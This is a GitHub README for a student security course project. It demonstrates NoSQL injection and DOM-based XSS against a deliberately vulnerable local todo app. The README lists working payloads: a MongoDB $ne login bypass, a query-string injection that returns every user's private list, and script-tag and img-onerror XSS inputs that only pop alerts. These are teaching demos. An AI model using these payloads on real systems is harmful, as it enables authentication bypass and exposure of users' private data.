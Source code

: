 # ISEC3004 Group 9

### Demo for:

-   NoSQL Injection
-   DOM Based XSS

# For lecturer / testing

### ✅ Build:

-   Download and install [Docker](https://www.docker.com/products/docker-desktop/)
-   Run `make -i docker-build`
-   Go to: `http://localhost:8001/`

### 1️⃣ NoSQL Injection #1:

Log in as any existing user.

-   Enter `http://localhost:8000/login?username=james&password[%24ne]=` into the address bar.

The server will interpret that as `{ username: 'james', password: { '$ne': '' }`; the password is passed into MongoDb as a JSON object, where the criteria will always evaluate to `true`.

### 2️⃣ NoSQL Injection #2:

Get every user's private todo list.

-   Enter `') || ('a'=='a) //` into the search box.

### 1️⃣ DOM-Based XSS #1:

-   Enter `asdf<script>alert("Malicious code executed, cookies stolen!");</script>` in the Text to Binary Converter.

### 2️⃣ DOM-Based XSS #2:

-   Enter `http://localhost:8000/dom-xss2#Christine Bui"><img src="x" onerror="function f(){alert('Malicious code executed, cookies stolen!');} f()">` into the address bar.

# For developers

### ⚒️ Initial setup:

-   Download and install [Docker](https://www.docker.com/products/docker-desktop/)
-   Install node and npm
-   Run `make install`

### 🧑‍💻 Daily dev:

-   Run `make docker-start`
-   Run `make dev`
-   Go to: `http://localhost:8000/`
-   Click `/seed-data` to create dummy data and fake accounts
